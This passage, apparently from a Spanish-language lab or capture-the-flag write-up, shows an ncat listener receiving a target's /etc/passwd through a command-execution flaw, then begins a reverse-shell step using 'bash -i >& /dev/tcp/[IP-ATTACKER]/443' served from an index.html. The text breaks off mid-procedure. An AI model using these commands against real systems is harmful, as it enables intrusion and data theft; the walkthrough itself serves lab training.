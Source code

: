 Antes de enviar, ponemos a la escucha `nc` y tendremos el contenido `/etc/passwd`


```java
❯ ncat -lvnp 80
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.97.12:55194.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
user:x:1000:1000:user:/home/user:/bin/bash
v0id:x:1001:1001:,,,:/home/v0id:/bin/bash
```

¡Vamos, podemos ejecutar comandos!

### Revershell

Para obetener una shell haremos lo siguiente:

- Primero, creamos una archivo `index.html` en donde tendra nuestra revershell

```java
❯ nano index.html
❯ cat index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/443 0>&1
```
- Segundo, iniciamos un servidor en python
